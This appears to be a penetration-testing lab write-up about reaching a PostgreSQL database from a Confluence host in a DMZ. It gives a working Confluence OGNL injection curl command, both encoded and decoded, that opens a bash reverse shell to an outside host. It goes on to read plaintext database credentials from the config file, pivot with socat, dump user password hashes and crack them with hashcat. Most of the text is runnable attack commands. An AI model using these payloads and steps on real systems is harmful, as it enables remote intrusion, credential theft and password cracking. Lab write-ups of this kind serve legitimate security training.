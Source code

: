 ### Port forwarding
- pg db on 10.4.234.215
- confluence box is on DMZ, access to both kali and internal subnet, db is internal
- exploit vuln to get reverse shell on confluence - 192.168.234.63
```
curl -v http://192.168.234.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

decoded payload we are using (java OGNL)
```
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/192.168.45.181/4444 0>&1').start()")}/
```

once on the box, enumerate networking
`ip addr`

check routes
`ip route`

find config file
`cat /var/atlassian/application-data/confluence/confluence.cfg.xml`

obtain plaintext creds, however network segmentation means we can't connect to it
```
jdbc:postgresql://10.4.234.215:5432/confluence
username: postgres
password: D@t4basePassw0rd!
```

- since there is no firewall, we can bind ports on WAN interface
- then forward all ports to pgdb inside the internal subnet
- we can use socat to do this
- once we setup port forward, commands from kali will be like hitting pg directly
- socat maybe installed by https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

on confluence
```
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.234.215:5432
```

from kali - pw D@t4basePassw0rd!
`psql -h 192.168.234.63 -p 2345 -U postgres`

on database
```
\l
\c confluence
select * from cwd_user;
```

copy hashes into file on kali (mode number for Atlassian (PBKDF2-HMAC-SHA1) hashes is 12001)
```
hashcat -m 12001 confluence-hashes /usr/share/wordlists/fasttrack.txt
```
